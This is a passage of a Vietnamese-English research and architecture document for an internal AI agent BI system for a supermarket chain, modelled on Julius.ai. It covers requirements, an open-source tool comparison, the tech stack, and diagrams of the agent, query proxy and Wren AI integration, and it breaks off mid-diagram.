# 🧠 AI Agent BI System — Research & Architecture Document

> **Mục tiêu**: Xây dựng hệ thống AI Agent BI tương tự Julius.ai — cho phép người dùng phân tích dữ liệu, tạo visualization, và generate insights thông qua giao diện chat bằng ngôn ngữ tự nhiên. Hệ thống phục vụ **nội bộ công ty**, tuân thủ nguyên tắc **zero raw data exposure** trong browser.

---

## 1. Executive Summary

### 1.1. Tổng Quan Dự Án

| Aspect | Chi tiết |
|:-------|:--------|
| **Mục tiêu** | Xây dựng AI Agent BI nội bộ — chat bằng ngôn ngữ tự nhiên để phân tích dữ liệu, tạo chart/dashboard, và generate insights |
| **Tham chiếu** | Julius.ai (reverse-engineered) — Agentic Data Scientist model |
| **Đối tượng** | 300-500 nhân viên nội bộ chuỗi siêu thị: Sales, Finance, Operations, SCM, HR, Executives |
| **Quy mô dữ liệu** | **2TB+ hiện tại** (dự kiến x10-x20), 300+ tables. **MongoDB (~95% volume)** + MySQL (~5%) |
| **Hạ tầng** | **On-premise Kubernetes cluster**, data residency tại Việt Nam |
| **Kiến trúc** | Hybrid Architecture — "Best of Breed" từ nhiều open-source components |
| **Bảo mật** | Server-Side Query Proxy — zero raw data in browser, RBAC + Column-level masking + PII protection + Audit Trail |
| **Performance** | Redis cache hit < 50ms, cache miss < 300ms (StarRocks MV auto-rewrite) |

### 1.2. Các Quyết Định Kiến Trúc Quan Trọng

| # | Quyết định | Lý do | Tham chiếu |
|:--|:----------|:------|:-----------|
| 1 | **StarRocks** thay vì ClickHouse cho OLAP | Better JOINs, MySQL-compatible, high concurrency, native CDC upsert | §4.3, §5.1 |
| 2 | **Server-Side Query Proxy** thay vì Evidence Parquet-in-browser | Zero raw data exposure, RBAC enforcement, audit trail | §7 |
| 3 | **Redis Cache Warming** cho dashboard performance | Cache hit < 50ms (ngang DuckDB in-browser), absorb 70%+ load | §6.3 |
| 4 | **LangGraph** cho Agent Orchestration | Stateful, conditional routing, checkpointing, production-grade | §4.4 |
| 5 | **Wren AI** cho Semantic Layer | MDL-based accuracy, business terms → SQL, single source of truth | §4.3 |
| 6 | **Evidence.dev loại bỏ hoàn toàn** khỏi production | Dashboard Builder + Report Builder phủ sóng 100% use cases, cùng tech stack | §6.0.6 |
| 7 | **Grain-Based Tiered Computation** cho multi-filter | 1 fact table (day×store×SKU) phục vụ 100% filter combinations | §5.2 |
| 8 | **Code-Verified Data Generation** (6-layer enforcement) | Zero tolerance for LLM-fabricated data + max 3 retry with graduated fallback | §5.5 |
| 9 | **Graphic Walker** optional cho Data Explorer mode | Hữu ích cho power users, nhưng ECharts + Hybrid Builder + Report Builder phủ sóng 4 UC chính (UC1–UC4) | §6.0.3, §6.10.2 |
| 10 | **Không fork Evidence** cho interactive dashboard | Fork cost cao (Svelte≠React), SQL exposed, Graphic Walker = better fit | §6.9 |
| 11 | **BlockNote Report Builder** cho AI Report Pages (UC4) | So sánh BlockNote vs PlateJS vs EditorJS → BlockNote thắng (AI + PDF + collaboration out-of-box). PlateJS = runner-up (MIT, React 19 native, nhưng thiếu PDF). EditorJS = loại (SSR incompatible). Abstraction layer (IReportEditor) cho risk mitigation | §6.0.5 |
| 12 | **Hybrid Dashboard Builder** (AI + Traditional) cho UC3, viewed in UC1 | AI mode (NL → widgets) cho business users + Traditional mode (drag-drop) cho power users. Personal (shareable, collaborative) vs Global (power user only) | §6.0.4 |
| 13 | **Parameterized Queries Only** cho Query Proxy | Tuyệt đối không string interpolation. Zod validation + whitelist-based filter validation | §6.2 |
| 14 | **K8s Pod Sandbox 4-layer Security** | Network isolation + query proxy + output sanitization + code static analysis. Chống data exfiltration | §5.7 |
| 15 | **Unified RBAC** cho Dashboard + Chat paths | Cùng RBAC engine, cùng permission model. Chat path có 3-point enforcement (context injection, SQL post-processing, column masking) | §7.3 |
| 16 | **3-Layer Cache Matching** (SQL hash → Entity hash → Semantic) | Tránh cross-period false cache matches. Entity guard trước semantic match | §5.6.2 |
| 17 | **HyperLogLog** cho customer distinct count | customer_count là semi-additive — SUM cho kết quả sai. HLL_UNION_AGG cho phép merge chính xác qua dimensions | §5.2 |
| 18 | **Next.js + FastAPI Split Backend** | Next.js: auth, query proxy, CRUD (Node.js). FastAPI: agent, Wren AI, K8s Pod Sandbox (Python). Clear boundary qua Nginx routing | §4.2.1 |
| 19 | **MCP Integration Strategy** — AI-Assisted Pipeline Dev | 9/10 components có official MCP server (dbt, Airbyte, StarRocks, Wren AI, Dagster, PostgreSQL, Langfuse, MinIO, K8s). AI agent tự setup CDC, viết dbt models, debug pipelines, maintain MDL | §4.6 |

### 1.3. Stack Tổng Quan


```mermaid
graph TD
    subgraph "User's Browser"
        UI["👁️ UC1: Viewer<br/>(Dashboard/Report read-only)"]
        CHAT["💬 UC2: AI Chat<br/>(ECharts AI-generated)"]
        BUILDER["📐 UC3: Dashboard Builder<br/>(react-grid-layout)"]
        REPORT["📄 UC4: Report Builder<br/>(BlockNote + ECharts)"]
    end

    subgraph "Security Layer"
        AUTH["🔐 Auth (Better Auth)<br/>JWT + Session"]
        RBAC["🛡️ RBAC Engine"]
        AUDIT["📋 Audit Log"]
    end

    subgraph "Server (Private Network)"
        API["🔒 Query Proxy<br/>(Next.js API Routes)"]
        REDIS["⚡ Redis Cache<br/>(TTL: 5min)"]
        AGENT["🤖 AI Agent<br/>(LangGraph)"]
        PDF["📑 PDF Service"]
    end

    subgraph "Data Layer"
        SR["🗄️ StarRocks"]
        MV["⚡ MVs"]
        PG["🐘 PostgreSQL<br/>(Dashboards, Reports)"]
    end

    subgraph "Data Pipeline"
        AIR["Airbyte (CDC)"]
        DBT["dbt Core"]
        DAG["Dagster"]
    end

    UI --> |"Filter change"| AUTH
    CHAT --> |"NL question"| AUTH
    BUILDER --> |"Save/Preview"| AUTH
    REPORT --> |"Chart data"| AUTH
    AUTH --> RBAC
    RBAC --> |"Dashboard/Builder"| API
    RBAC --> |"Chat"| AGENT

    API --> REDIS
    REDIS --> |"Cache miss"| SR
    SR --> MV
    AGENT --> SR

    API --> |"Chart data ONLY<br/>{labels, values}"| UI
    AGENT --> |"Answer + ECharts config"| CHAT
    CHAT --> |"Add to Dashboard"| BUILDER
    CHAT --> |"Add to Report"| REPORT
    BUILDER --> |"Publish"| UI
    REPORT --> |"Share/Publish"| UI
    REPORT --> |"Export"| PDF
    BUILDER --> |"Save layout"| PG
    REPORT --> |"Save report"| PG

    AUTH --> AUDIT
    API --> AUDIT
    AGENT --> AUDIT
    
    AIR --> SR
    DAG --> AIR
    DAG --> DBT
    DBT --> SR
```

---

## 2. Context & Requirements

> [!NOTE]
> ### Thông tin từ User:
> - **Mục đích**: Phục vụ **nội bộ công ty**
> - **Data Source**: Toàn bộ **database hiện tại đang vận hành** (OLTP/transactional)
> - **Constraint**: Không query trực tiếp production DB cho analytics
> - **Yêu cầu**: Pipeline hiệu quả để tách OLTP khỏi OLAP workload

### 2.1. Confirmed Requirements (Đã Xác Nhận)

| # | Câu hỏi | Trả lời | Ảnh hưởng tới kiến trúc |
|:--|:--------|:--------|:------------------------|
| 1 | **Production DB** | **MongoDB (primary, ~95% volume) + MySQL (~5%)** | Airbyte CDC: MongoDB Change Streams (chính) + MySQL Binlog (phụ). Không có PostgreSQL source |
| 2 | **Data volume** | **2TB+ hiện tại, dự kiến x10-x20 (20-40TB)**, 300+ tables | StarRocks cluster cần scale-out (multi-node BE), storage-compute separation. Partition strategy critical |
| 3 | **Data freshness** | **Target: 5 phút (CDC interval), Actual end-to-end: ~8-10 phút** | CDC sync interval = 5 phút. Tổng pipeline (Airbyte sync + dbt transform + MV refresh) = ~8-10 phút. Xem §5.1.4 và §5.8 cho SLA chi tiết |
| 4 | **Số lượng user nội bộ** | **300-500 users** (nhân viên văn phòng chuỗi siêu thị) | StarRocks high concurrency (1000+ QPS validated), Redis cluster mode, Nginx load balancing |
| 5 | **Existing infra** | **On-premise, đã có Kubernetes cluster** | Deploy trực tiếp lên K8s. Self-hosted K8s Pod Sandbox cho code execution (thay vì cloud sandbox) |
| 6 | **Business domains** | **Toàn bộ nghiệp vụ vận hành chuỗi siêu thị**: Sales, Finance, Operations, SCM, HR, Marketing | Wren AI MDL cần mô hình hóa 6+ domains. Cần MDL governance process |
| 7 | **Sensitive data** | **Có PII + financial data** cần bảo vệ đặc biệt | Data masking trong dbt pipeline, column-level RBAC, PII anonymization cho non-authorized roles |
| 8 | **LLM budget** | **Cần optimize**: caching + model routing (nhỏ cho simple, lớn cho complex) | Hybrid strategy: Gemini Flash cho intent/simple SQL, GPT-4o/Claude cho complex analysis |
| 9 | **Data residency** | **Tại Việt Nam** (on-premise, phục vụ nội bộ) | Không dùng cloud LLM cho data processing. LLM chỉ nhận schema/metadata, KHÔNG nhận raw data |
| 10 | **Infrastructure** | **K8s cluster on-premise đã sẵn sàng** | Tất cả components deploy dạng K8s Deployments/StatefulSets. Helm charts cho quản lý |
| 11 | **Team size** | **Sử dụng AI để build 100%** | Ưu tiên open-source components có docs tốt, ít custom code. Compose > build from scratch |
| 12 | **Multi-language** | **Tiếng Việt + English** | Multilingual embedding model. Wren AI MDL: Vietnamese business terms. UI: Vietnamese |

### 2.2. Architectural Implications (Hệ Quả Kiến Trúc)

> [!IMPORTANT]
> Các input trên dẫn tới **5 quyết định kiến trúc quan trọng** khác với thiết kế ban đầu:

| # | Quyết định | Lý do | Impact |
|:--|:----------|:------|:-------|
| **I1** | **K8s Pod Sandbox** (self-hosted) thay E2B Cloud | On-premise → không dùng được E2B (cloud service). Thay bằng ephemeral K8s pods cho Python code execution | Cần build sandbox controller, nhưng tận dụng K8s infra có sẵn |
| **I2** | **StarRocks multi-node cluster** (≥3 BE nodes) | 2TB+ data, 300-500 users concurrent → single node không đủ | Cần ≥3 BE nodes (16vCPU, 64GB RAM mỗi node), storage-compute separation |
| **I3** | **Redis Cluster** thay Redis standalone | 300-500 users → cache hit rate critical cho performance | Redis Cluster 3 master + 3 replica, hoặc Redis Sentinel HA |
| **I4** | **PII Masking Pipeline** trong dbt | Có PII (customer) + financial data → cần masking trước khi expose qua BI | dbt models mask PII columns, column-level RBAC enforce visibility |
| **I5** | **Deploy trực tiếp lên K8s** | Đã có K8s on-premise → bỏ Docker Compose phase | Helm charts / Kustomize cho deployment, không cần migration path |


### 2.3. Multi-Language Strategy

> [!NOTE]
> **Quyết định ngôn ngữ** ảnh hưởng tới: LLM prompt design, Wren AI MDL definitions, embedding model choice, và UX.

| Component | Ngôn ngữ | Lý do |
|:----------|:---------|:------|
| **User input (Chat)** | Vietnamese (chính) + English | Nhân viên nội bộ VN, nhưng một số thuật ngữ chuyên ngành dùng English |
| **LLM System Prompts** | English | LLM accuracy cao hơn khi system prompt bằng English. User message có thể bằng bất kỳ ngôn ngữ nào |
| **Wren AI MDL (metric names)** | Vietnamese + English aliases | Business terms phải bằng Vietnamese để user hỏi tự nhiên: "Doanh thu" → `SUM(revenue)`. Kèm English alias cho data team |
| **Wren AI MDL (descriptions)** | Vietnamese | Mô tả chi tiết bằng Vietnamese để LLM hiểu context VN business |
| **Dimension values** | Vietnamese (gốc từ DB) | Store names, region names, category names → giữ nguyên từ production DB |
| **Dashboard UI labels** | Vietnamese | End users là nhân viên VN |
| **Code comments (generated)** | English | LLM generate code comments bằng English (standard practice) |
| **Error messages** | Vietnamese | User-facing errors bằng Vietnamese cho dễ hiểu |

**Embedding Model Choice:**
- Dùng `multilingual-e5-large` hoặc `paraphrase-multilingual-MiniLM-L12-v2` cho semantic search — hỗ trợ Vietnamese + English cross-lingual matching
- Test accuracy: "doanh thu quý 1" phải match với "Q1 revenue" (cross-lingual semantic similarity > 0.85)

---

## 3. Market Research

### 3.1. Phân Tích Sản Phẩm Julius.ai

#### 3.1.1. Tổng Quan

Julius.ai là một nền tảng AI Data Analysis hoạt động theo mô hình **"Agentic Data Scientist"** — chuyển đổi câu hỏi ngôn ngữ tự nhiên thành code (Python/R), thực thi trong sandbox an toàn, và trả kết quả dưới dạng insights + visualization.

#### 3.1.2. Feature Map Chi Tiết


```mermaid
graph TD
    A["Julius.ai Feature Map"] --> B["Data Input"]
    A --> C["AI Analysis Engine"]
    A --> D["Visualization"]
    A --> E["Collaboration"]
    A --> F["Enterprise"]
    
    B --> B1["Upload: CSV, Excel, PDF"]
    B --> B2["Live DB: BigQuery, Snowflake, Postgres"]
    B --> B3["Cloud: Google Sheets"]
    B --> B4["File size: up to 32GB"]
    
    C --> C1["Natural Language Chat"]
    C --> C2["Code Generation: Python/R"]
    C --> C3["Code Transparency & Edit"]
    C --> C4["Learning Sub-Agent"]
    C --> C5["Automated Notebooks"]
    C --> C6["Statistical Analysis"]
    C --> C7["ML Model Training"]
    
    D --> D1["Auto Chart Selection"]
    D --> D2["Histograms, Heatmaps, Bar, Line..."]
    D --> D3["Drag-and-Drop Dashboard"]
    D --> D4["Export Charts"]
    
    E --> E1["Shared Workspaces"]
    E --> E2["Collaborative Research"]
    E --> E3["Scheduled Reports (Email/Slack)"]
    
    F --> F1["SSO (SAML/Okta)"]
    F --> F2["SOC 2 Type II"]
    F --> F3["RBAC & Audit Logs"]
    F --> F4["Custom Pricing"]
```

#### 3.1.3. Kiến Trúc Kỹ Thuật Julius.ai (Reverse-Engineered)

| Layer | Component | Mô tả |
|:------|:----------|:------|
| **Frontend** | Chat UI + Notebook | Giao diện chat với code cells, hỗ trợ stream response |
| **Orchestration** | LLM Agent (GPT-4/Claude) | Nhận câu hỏi → phân tích ý định → sinh code |
| **Execution** | Isolated VM Sandbox | Container riêng per session, pre-installed pandas/numpy/matplotlib |
| **Data** | File Storage + DB Connectors | Upload files + live connection tới warehouse |
| **Learning** | Sub-Agent + Memory | Học cấu trúc DB, column definitions, query patterns |

#### 3.1.4. Điểm Mạnh & Hạn Chế của Julius.ai

| ✅ Điểm mạnh | ❌ Hạn chế |
|:-------------|:----------|
| UX cực kỳ đơn giản — chat = analysis | Chủ yếu file-centric, không mạnh warehouse |
| Code transparency — xem & edit code | Không self-host được → data privacy concern |
| Learning Sub-Agent — cải thiện theo thời gian | Thiếu Semantic Layer → business terms hay bị sai |
| Auto chart selection | Collaboration features yếu so với enterprise BI |
| Hỗ trợ file lớn (32GB) | Không có governance (metric definitions) |

---

### 3.2. Khảo Sát Open-Source Landscape

#### 3.2.1. Ma Trận So Sánh Tổng Hợp

| Tiêu chí | **Wren AI** | **PandasAI** | **Vanna.ai** | **Chat2DB** | **Metabase + AI** | **Dify** | **LangGraph** |
|:---------|:-----------|:------------|:------------|:-----------|:-----------------|:--------|:-------------|
| **Loại** | GenBI Platform | Python Library | Python Framework | SQL Client | BI Platform | Agent Platform | Agent Framework |
| **GitHub Stars** | ~5K | ~15K+ | ~12K+ | ~25K+ | ~40K+ | ~60K+ | ~10K+ |
| **License** | AGPL-3.0 | MIT | MIT | Apache 2.0 | AGPL-3.0 | Apache 2.0 | MIT |
| **Text-to-SQL** | ✅ Semantic Layer | ✅ Direct | ✅ RAG-based | ✅ Built-in | ✅ Metabot | ⚠️ Via tools | ⚠️ Custom build |
| **Code Execution** | ❌ SQL only | ✅ Python | ⚠️ Limited | ❌ SQL only | ❌ SQL only | ⚠️ Plugin | ✅ Custom |
| **Visualization** | ✅ Auto charts | ✅ Matplotlib | ✅ Plotly | ✅ Dashboard | ✅ Rich BI | ❌ | ✅ Custom |
| **File Upload** | ❌ | ✅ CSV/Excel | ❌ DB only | ❌ | ✅ | ✅ | ✅ Custom |
| **DB Connectors** | ✅ 10+ | ⚠️ Via pandas | ✅ 10+ | ✅ 30+ | ✅ 20+ | ⚠️ Plugin | ✅ Custom |
| **Semantic Layer** | ✅ MDL | ❌ | ⚠️ Q-SQL Pairs | ❌ | ⚠️ Models | ❌ | ❌ |
| **Self-Hosted** | ✅ Docker | ✅ pip | ✅ pip | ✅ Docker | ✅ Docker | ✅ Docker/K8s | ✅ pip |
| **Multi-user** | ⚠️ | ❌ | ❌ | ✅ | ✅ | ✅ | ❌ |
| **Chat Interface** | ✅ | ❌ Library | ✅ | ✅ | ✅ Metabot | ✅ | ❌ |
| **MCP Support** | ✅ | ❌ | ❌ | ❌ | ❌ | ✅ | ✅ |
| **Learning/Memory** | ✅ Instructions | ❌ | ✅ Training loop | ❌ | ❌ | ⚠️ | ✅ State mgmt |
| **Sandbox** | ❌ | ❌ | ❌ | ❌ | ❌ | ⚠️ Plugin | ✅ Custom |

#### 3.2.2. Phân Tích Chi Tiết Từng Giải Pháp

#### 🟢 Wren AI — Semantic-First GenBI
- **Mục đích**: Platform GenBI có Semantic Layer mạnh nhất
- **Kiến trúc**: Wren UI → Wren AI Service (RAG + LLM) → Wren Engine (Semantic Engine)
- **Điểm mạnh**: MDL mapping business logic → SQL chính xác; dbt integration; MCP support
- **Điểm yếu**: Chỉ hỗ trợ SQL, không execute Python code; không upload file
- **Phù hợp**: Team cần text-to-SQL chính xác với warehouse

#### 🟢 PandasAI — Conversational Data Analysis Library
- **Mục đích**: Python library cho "chat with DataFrame"
- **Kiến trúc**: NL → LLM → Python/SQL code → Execute trên pandas
- **Điểm mạnh**: Dễ tích hợp; hỗ trợ nhiều file format; visualization
- **Điểm yếu**: Library thuần, không có UI/chat interface; không multi-user
- **Phù hợp**: Developer cần embed vào ứng dụng riêng

#### 🟢 Vanna.ai — RAG-based Text-to-SQL
- **Mục đích**: Framework tối ưu cho text-to-SQL với feedback loop
- **Kiến trúc**: Training (DDL + Docs + Q-SQL pairs) → Vector Store → RAG → SQL
- **Điểm mạnh**: Self-improving accuracy; modular components; Plotly viz
- **Điểm yếu**: Chủ yếu SQL, ít hỗ trợ Python analysis; cần training manual
- **Phù hợp**: Developer xây custom NL2SQL pipeline

#### 🟢 Chat2DB — AI SQL Client
- **Mục đích**: SQL client tích hợp AI, thay thế Navicat/DBeaver
- **Kiến trúc**: Desktop/Web app → AI Assistant → Multi-DB support
- **Điểm mạnh**: 30+ DB support; team collaboration; NL→SQL & SQL→NL
- **Điểm yếu**: Thiên về DB management, không phải BI platform; không có analysis agent
- **Phù hợp**: Team cần AI-powered SQL client

#### 🟢 Metabase + Metabot AI — Traditional BI + AI
- **Mục đích**: BI platform truyền thống tích hợp AI NL→SQL
- **Kiến trúc**: Metabase BI → Metabot (BYO API key) → SQL generation
- **Điểm mạnh**: Mature BI features; rich visualization; strong community
- **Điểm yếu**: AI chỉ là add-on, không phải core; không có agentic workflow
- **Phù hợp**: Team đã dùng Metabase, muốn thêm NL query

#### 🟢 Dify — LLM Application Platform
- **Mục đích**: Low-code platform cho LLM apps, agents, workflows
- **Kiến trúc**: Visual Workflow → Agent (ReAct/Function Calling) → RAG → Tool Ecosystem
- **Điểm mạnh**: Visual drag-and-drop; MCP support; self-hosted; plugin marketplace
- **Điểm yếu**: Không chuyên biệt cho BI; cần customize nhiều cho data analysis
- **Phù hợp**: Team muốn build agent nhanh với low-code

#### 🟢 LangGraph — Production Agent Framework
- **Mục đích**: Framework cho stateful, multi-agent workflows
- **Kiến trúc**: Directed Graph → State Management → Tool Calling → Human-in-the-loop
- **Điểm mạnh**: Production-grade; conditional branching; checkpointing; LangSmith tracing
- **Điểm yếu**: Cần engineering effort lớn; không có UI
- **Phù hợp**: Team engineering mạnh, cần full control

#### 3.2.3. Các Thành Phần Bổ Trợ Quan Trọng

| Component | Tool | Vai trò |
|:----------|:-----|:--------|
| **Code Sandbox** | K8s Ephemeral Pods (self-hosted) | On-premise sandbox cho AI code execution (Python), start ~1-3s, K8s-native resource limits + network policies |
| **LLM Provider** | OpenAI / Anthropic / Gemini | Core reasoning engine |
| **Vector DB** | ChromaDB / Qdrant / Pinecone | Semantic search cho RAG |
| **Observability** | Langfuse / LangSmith | Tracing, debugging, cost monitoring |
| **Visualization** | ECharts / echarts-for-react | Chart engine cho dashboard, chat, reports |

---

### 3.3. Key Takeaway → Strategy Direction

> [!IMPORTANT]
> **Không nên dùng 1 tool duy nhất.** Julius.ai thành công vì họ kết hợp nhiều capability:
> - Text-to-SQL (với Semantic Layer)
> - Code generation & execution (Python sandbox)
> - Auto visualization
> - Learning/Memory
>
> → Giải pháp tối ưu là **compose** từ nhiều thành phần open-source tốt nhất ("Best of Breed" Hybrid Architecture).

---

## 4. System Architecture

### 4.1. Kiến Trúc Đề Xuất


```mermaid
graph TD
    subgraph "Frontend Layer"
        A["Next.js 15+ App"] --> A1["Chat Interface<br/>(Streaming SSE)"]
        A --> A2["Code Cells<br/>(Monaco Editor)"]
        A --> A3["Visualization<br/>(ECharts)"]
        A --> A4["Dashboard Builder"]
        A --> A5["File Upload Widget"]
    end
    
    subgraph "API Gateway"
        B["FastAPI Backend"]
        B --> B1["Auth & RBAC"]
        B --> B2["Session Management"]
        B --> B3["WebSocket/SSE Handler"]
    end

    subgraph "Agent Orchestration Layer"
        C["LangGraph Agent"] --> C1["Planner Agent<br/>(Intent Classification)"]
        C --> C2["Text-to-SQL Agent<br/>(Wren AI)"]
        C --> C3["Python Analysis Agent<br/>(LLM Code Gen → K8s Sandbox)"]
        C --> C4["Visualization Agent<br/>(Chart Generation)"]
        C --> C5["Synthesizer Agent<br/>(Summary & Insights)"]
    end

    subgraph "Semantic Layer"
        D["Wren Engine (MDL)"]
        D --> D1["Business Metric Definitions"]
        D --> D2["Table Relationships"]
        D --> D3["Column Descriptions"]
        D --> D4["dbt Integration"]
    end

    subgraph "Execution Layer"
        E["K8s Pod Sandbox"]
        E --> E1["Python Runtime<br/>(pandas, numpy, scikit-learn)"]
        E --> E2["Chart Generation<br/>(ECharts JSON config)"]
        E --> E3["File Processing"]
    end

    subgraph "Data Layer"
        F["Data Sources (On-Premise)"]
        F --> F1["MongoDB<br/>(Primary — ~95%, 2TB+)"]
        F --> F2["MySQL<br/>(Legacy — ~5%)"]
        F --> F3["File Upload<br/>(MinIO)"]
    end

    subgraph "Memory & Knowledge"
        G["Knowledge Store"]
        G --> G1["Vector DB (ChromaDB)<br/>Schema + Q-SQL Pairs"]
        G --> G2["PostgreSQL<br/>Session History"]
        G --> G3["Redis<br/>Cache Layer"]
    end

    subgraph "Observability"
        H["Monitoring"]
        H --> H1["Langfuse<br/>(Tracing & Cost)"]
        H --> H2["Prometheus + Grafana<br/>(System Metrics)"]
    end

    A1 --> B
    A5 --> B
    B --> C
    C2 --> D
    C3 --> E
    C4 --> E
    C --> G
    D --> F
    E --> F1
    C --> H
```

### 4.2. Tech Stack Chi Tiết

| Layer | Technology | Lý do chọn |
|:------|:-----------|:-----------|
| **Frontend** | Next.js 15 + React 19 | SSR, streaming, modern UI |
| **UI Components** | shadcn/ui + Tailwind CSS | Premium design system |
| **Code Editor** | Monaco Editor | VS Code-like experience cho code cells |
| **Charts** | ECharts via `echarts-for-react` | 50+ chart types, JSON config, AI-friendly, theme system |
| **Dashboard Builder** | react-grid-layout + ECharts | Drag-drop layout, responsive, serializable (Grafana pattern) |
| **Report Builder** | BlockNote (React) + ECharts custom blocks | Notion-like editor, AI integration, PDF export |
| **Backend API** | Next.js API Routes (Query Proxy, Auth, Dashboard CRUD) + FastAPI (AI Agent, K8s Pod Sandbox orchestration) | Xem §4.2.1 API Gateway Architecture bên dưới |
| **Agent Framework** | LangGraph | Stateful agent với conditional routing |
| **Text-to-SQL** | Wren AI Engine (Semantic Layer) | MDL-based accuracy, không hallucination |
| **Python Analysis** | LLM-generated code trong K8s Pod Sandbox | Code generation + execution (pandas, sklearn, plotly pre-installed) |
| **Code Sandbox** | K8s Pod Sandbox (self-hosted) | Secure, on-premise ephemeral pods, K8s NetworkPolicy isolation |
| **LLM** | gpt-4o / claude-sonnet-4-5 / gemini-2.5-flash | Multi-model support, hybrid routing (Flash cho simple, Pro cho complex) |
| **Vector DB** | ChromaDB (dev) → Qdrant (prod) | RAG cho schema & query matching |
| **OLAP Database** | StarRocks | MPP analytics engine, MySQL-compatible |
| **Database** | PostgreSQL | Session, user, metadata storage |
| **Cache** | Redis | Query result caching, rate limiting |
| **Object Storage** | MinIO (self-hosted S3) | File upload storage |
| **Auth** | Better Auth | Multi-tenant, social login (ref: conversation trước) |
| **Observability** | Langfuse (open-source) | LLM tracing, cost tracking, evals |
| **Deployment** | Kubernetes (on-premise, đã có sẵn) | Helm charts, K8s-native từ ngày đầu |

### 4.2.1. API Gateway Architecture — Phân Định Next.js vs FastAPI

> [!IMPORTANT]
> Hệ thống có **2 backend services** phục vụ 2 mục đích khác nhau. Ranh giới rõ ràng:


```mermaid
graph TD
    subgraph "Browser (Next.js Frontend)"
        UI["Next.js App"]
    end

    subgraph "API Gateway (Nginx)"
        NGINX["Nginx Reverse Proxy<br/>TLS termination"]
    end

    subgraph "Backend Service 1: Next.js API Routes"
        NJS["Next.js API Routes<br/>(Node.js runtime)"]
        NJS --> NJS_AUTH["🔐 Auth endpoints<br/>login, logout, session"]
        NJS --> NJS_PROXY["🔒 Query Proxy<br/>dashboard queries + RBAC"]
        NJS --> NJS_CRUD["📝 Dashboard/Report CRUD<br/>save, load, publish"]
        NJS --> NJS_CACHE["⚡ Redis Cache Manager<br/>cache warming, invalidation"]
    end

    subgraph "Backend Service 2: FastAPI"
        FAST["FastAPI<br/>(Python runtime)"]
        FAST --> FAST_AGENT["🤖 LangGraph Agent<br/>orchestration + state"]
        FAST --> FAST_WREN["🗣️ Wren AI Client<br/>semantic layer API"]
        FAST --> FAST_SANDBOX["🔬 K8s Pod Sandbox Manager<br/>Python code execution"]
        FAST --> FAST_VDB["🧠 Vector DB Client<br/>ChromaDB/Qdrant"]
    end

    subgraph "Shared Infrastructure"
        REDIS["⚡ Redis"]
        PG["🐘 PostgreSQL"]
        SR["🗄️ StarRocks"]
    end

    UI --> |"HTTPS"| NGINX
    NGINX --> |"/api/auth/*<br/>/api/dashboard/*<br/>/api/query/*"| NJS
    NGINX --> |"/api/agent/*<br/>/api/chat/*"| FAST

    NJS_PROXY --> REDIS
    NJS_PROXY --> SR
    NJS_CRUD --> PG
    NJS_AUTH --> PG

    FAST_AGENT --> SR
    FAST_WREN --> SR
    FAST_SANDBOX --> SR
    FAST_AGENT --> REDIS
    FAST_AGENT --> PG

    style NJS fill:#6bcb77,stroke:#333,color:#333
    style FAST fill:#4F46E5,stroke:#333,color:#fff
    style NGINX fill:#ffd93d,stroke:#333,color:#333
```

| Responsibility | Service | Lý do |
|:---------------|:--------|:------|
| **Auth (login/logout/session)** | Next.js API Routes | Better Auth là JS library, cùng runtime với frontend SSR |
| **Dashboard Query Proxy** | Next.js API Routes | Parameterized SQL, Redis cache, RBAC — latency-sensitive (< 50ms target) |
| **Dashboard/Report CRUD** | Next.js API Routes | PostgreSQL JSONB operations, cùng stack với frontend |
| **AI Agent Orchestration** | FastAPI | LangGraph là Python library, cần Python runtime |
| **Wren AI Communication** | FastAPI | Wren AI SDK là Python, gọi Wren AI Service API |
| **K8s Pod Sandbox Management** | FastAPI | K8s Pod Sandbox SDK là Python, sandbox orchestration logic |
| **Vector DB (RAG)** | FastAPI | ChromaDB/Qdrant Python clients |

**Communication giữa 2 services:**
- **Next.js → FastAPI**: Khi user gửi chat message, Next.js forward request tới FastAPI `/api/chat/query` (internal HTTP, JWT passthrough)
- **FastAPI → Next.js**: Khi Agent cần execute dashboard-style query (đã có cache), gọi Next.js Query Proxy API (reuse RBAC + cache logic)
- **Shared state**: Redis (cache, rate limiting), PostgreSQL (sessions, metadata, audit)

### 4.3. Agent Workflow Chi Tiết


```mermaid
graph TD
    START["User Query"] --> PLAN["🧠 Planner Agent"]
    
    PLAN --> |"SQL Query needed"| SQL["📊 SQL Agent"]
    PLAN --> |"File analysis needed"| PYTHON["🐍 Python Agent"]
    PLAN --> |"Simple question"| DIRECT["💬 Direct Answer"]
    
    SQL --> SEM["Semantic Layer<br/>(Wren Engine)"]
    SEM --> EXEC_SQL["Execute SQL<br/>on Data Warehouse"]
    EXEC_SQL --> VALIDATE["Validate Results"]
    
    VALIDATE --> |"Error/Empty"| RETRY["Retry with<br/>Modified Query"]
    RETRY --> SQL
    
    VALIDATE --> |"Success"| VIZ_NEEDED{"Visualization<br/>Needed?"}
    
    PYTHON --> SANDBOX["K8s Pod Sandbox<br/>Execute Python"]
    SANDBOX --> VIZ_NEEDED
    
    VIZ_NEEDED --> |"Yes"| VIZ["📈 Viz Agent<br/>Generate Chart"]
    VIZ_NEEDED --> |"No"| SYNTH["✍️ Synthesizer"]
    VIZ --> SYNTH
    
    SYNTH --> RESPONSE["Stream Response<br/>to User"]
    DIRECT --> RESPONSE
    
    RESPONSE --> FEEDBACK{"User<br/>Feedback?"}
    FEEDBACK --> |"Refine"| PLAN
    FEEDBACK --> |"Correct ✅"| LEARN["Save to<br/>Knowledge Base"]
    FEEDBACK --> |"Done"| END["End"]
```

### 4.4. Wren AI Integration Architecture

> [!IMPORTANT]
> **Wren AI là "phiên dịch viên" giữa business terms và SQL.** Section này chi tiết cách Wren AI connect với StarRocks, cách LangGraph gọi Wren AI, và fallback khi Wren AI không khả dụng.
>
> **Lưu ý về Context Window**: Với 300+ tables và hàng nghìn metrics/dimensions, Wren AI **PHẢI** chạy trong chế độ **RAG-based Semantic Retrieval** — phân mảnh MDL thành vectors, khi có câu hỏi chỉ retrieve context liên quan (ví dụ: hỏi về "Sales" → chỉ nạp `fct_sales` + `dim_product`). Nếu nạp toàn bộ MDL vào prompt, context window sẽ bị phá vỡ và chi phí đội lên gấp nhiều lần.

#### 4.4.1. Connection Architecture


```mermaid
graph TD
    subgraph "LangGraph Agent (FastAPI)"
        PLANNER["🧠 Planner Agent"]
        SQL_AGENT["📊 SQL Agent"]
    end

    subgraph "Wren AI Service (Docker)"
        WREN_API["Wren AI REST API<br/>:3000"]
        WREN_ENGINE["Wren Engine<br/>(Semantic Engine)"]
        WREN_AI_SVC["Wren AI Service<br/>(LLM + RAG)"]
